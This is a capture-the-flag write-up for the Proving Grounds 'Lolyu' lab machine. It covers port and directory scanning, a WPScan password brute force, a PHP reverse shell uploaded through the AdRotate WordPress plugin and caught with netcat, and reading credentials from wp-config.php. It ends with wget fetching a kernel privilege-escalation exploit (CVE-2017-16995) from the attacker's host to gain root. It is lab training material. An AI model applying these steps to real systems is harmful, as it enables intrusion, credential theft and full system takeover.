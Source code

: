```yaml
---
layout: default
title: Lolyu
parent: Proving Grounds Play
nav_order: 26
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.242.121
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-14 21:06 EST
Nmap scan report for 192.168.242.121
Host is up (0.12s latency).
Not shown: 65050 closed tcp ports (reset), 484 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.31 seconds

```

# Enumeration

---

## 80 | HTTP

### Gobuster scan

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ gobuster dir -u http://192.168.242.121 -w /usr/share/wordlists/custom/large_directories.txt -x aspx,php,txt,conf -t 80 -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.242.121
[+] Method:                  GET
[+] Threads:                 80
[+] Wordlist:                /usr/share/wordlists/custom/large_directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              aspx,php,txt,conf
[+] Timeout:                 10s
===============================================================
2023/11/14 21:08:11 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 194] [--> http://192.168.242.121/wordpress/]
```

Checking _/wordpress/wp-admin_ results in page not found and attempted redirect to _loly.lc/wordpress_

Updating _/etc/hosts_

![admin](../../../assets/images/ctfs/proving_grounds/loly/admin.png)

### WPScan

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ wpscan --url http://loly.lc/wordpress --disable-tls-checks --enumerate p --enumerate t --enumerate

[i] User(s) Identified:

[+] loly
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

Run WPScan brute force on _loly_ user

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ wpscan --url http://loly.lc/wordpress --disable-tls-checks -U users.txt -P /usr/share/wordlists/rock
you.txt

[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - loly / fernando
```

# Exploitation

---

Logon to _loly.lc/wordpress/wp-admin_ as _loly_

## Exploit AdRotate Plugin

The _AdRotate_ plugin allows file upload in zip format

![banner](../../../assets/images/ctfs/proving_grounds/loly/banner.png)

Edit php-reverse-shell.php and zip as _rev.php_ within _zip.php_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ zip rev.zip  rev.php
  adding: rev.php (deflated 59%)

```

Upload rev.zip

![upload](../../../assets/images/ctfs/proving_grounds/loly/upload.png)

Trigger by navigating to _/wordpress/wp-content/banners/rev.php_

![trigger](../../../assets/images/ctfs/proving_grounds/loly/trigger.png)

Receive the reverse shell in our netcat listener.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.242.121] 60228
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 18:34:05 up  1:45,  0 users,  load average: 0.02, 0.05, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Post-Exploitation

---

## Enumerate Wordpress Config Files

Locate db creds in _wp-config.php_

```bash
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```

## Pivot to Loly User

First tried the _lolyisabeautifulgirl_ password on _loly_ and it worked.

```bash
www-data@ubuntu:~/html/wordpress$ su loly
Password:
loly@ubuntu:/var/www/html/wordpress$ id
uid=1000(loly) gid=1000(loly) groups=1000(loly),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)

```

## Check Kernal Version

```bash
loly@ubuntu:/home$ uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

This version of Ubuntu 4.4.0-31-generic is vulnerable to CVE-2017-16995.

![searchsploit](../../../assets/images/ctfs/proving_grounds/loly/searchsploit.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ searchsploit -m 45010
  Exploit: Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/45010
     Path: /usr/share/exploitdb/exploits/linux/local/45010.c
    Codes: CVE-2017-16995
 Verified: True
File Type: C source, ASCII text
Copied to: /home/vagrant/Documents/PG/PLAY/loly/45010.c



┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ gcc 45010.c -o 45010 --static

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/loly]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

Upload and run on the target to get root shell

```bash
loly@ubuntu:/home$ cd /tmp
loly@ubuntu:/tmp$ get http://192.168.45.217:8000/45010
No command 'get' found, but there are 18 similar ones
get: command not found
loly@ubuntu:/tmp$ wget http://192.168.45.217:8000/45010
--2023-11-14 18:50:07--  http://192.168.45.217:8000/45010
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 776472 (758K) [application/octet-stream]
Saving to: ‘45010’

45010                     100%[=====================================>] 758.27K   857KB/s    in 0.9s

2023-11-14 18:50:08 (857 KB/s) - ‘45010’ saved [776472/776472]

loly@ubuntu:/tmp$ chmod +x 45010
loly@ubuntu:/tmp$ ./45010
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88007a8aac00
[*] Leaking sock struct from ffff8800349703c0
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff8800773d2540
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff8800773d2540
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(loly)
# whoami
root

```
